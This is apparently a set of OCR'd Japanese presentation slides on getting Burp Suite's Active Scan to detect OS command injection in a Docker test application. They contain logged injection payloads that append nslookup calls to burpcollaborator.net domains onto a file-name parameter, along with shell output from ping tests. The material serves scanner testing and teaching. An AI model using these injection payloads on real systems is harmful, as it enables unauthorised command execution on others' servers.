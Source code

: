 ***

## payloadを確認

$ grep collaborator app_log

（コマンドインジェクション関連のみ抜粋）

```xml
public/docs/Health_n_Stuff.pdf|nslookup
xjkc3784sghp3tqm1jy506ecx33wrsfj29qy.burpcollaborator.net.&

public/docs/Health_n_Stuff.pdf'"`0&nslookup
n2q2mxrub60fmj9ck9hvjwx2gtmmajyal09p.burpcollaborator.net.&`'

public/docs/Health_n_Stuff.pdf&nslookup
cn3r7mcjwvl478u15y2k4lir1i7bv6jx6nuc.burpcollaborator.net.&'\\"`0&nslookup cn3r7mcjwvl478u15y2k4lir1i7bv6jx6nuc.burpcollaborator.net.&`'
```

***

## payloadを確認

```xml
public/docs/Health_n_Stuff.pdf&nslookup
cn3r7mcjwvl478u15y2k4lir1i7bv6jx6nuc.burpcollaborator.net.&
'\\"`0&nslookup cn3r7mcjwvl478u15y2k4lir1i7bv6jx6nuc.
burpcollaborator.net.&`'
```

***

## 無理矢理検知させる(2)

1. Active Scanが終了する前に中断
1. appログを確認
1. nslookupで問い合わせているドメイン名に対し、名前解決実行
1. Active Scanを再開

=> OSコマンドインジェクションを検知
=> 非同期処理に対応していることもわかった

***

## base requestを変更（ファイル名を空に）

* pingの実行には成功しているが、time-baseなので検知には至らない
* nslookupコマンドが無い（Dockerで環境を作った）

```
sh: 1: nslookup: not found
i67bkthhjn bsm4l10urv
PING 21 (0.0.0.21): 56 data bytes
ping: sending packet: Invalid argument
sh: 1: PING: not found
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.112 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.031 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.037 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.026 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.032 ms
64 bytes from 127.0.0.1: icmp_seq=5 ttl=64 time=0.038 ms
64 bytes from 127.0.0.1: icmp_seq=6 ttl=64 time=0.046 ms
64 bytes from 127.0.0.1: icmp_seq=7 ttl=64 time=0.040 ms
64 bytes from 127.0.0.1: icmp_seq=8 ttl=64 time=0.033 ms
```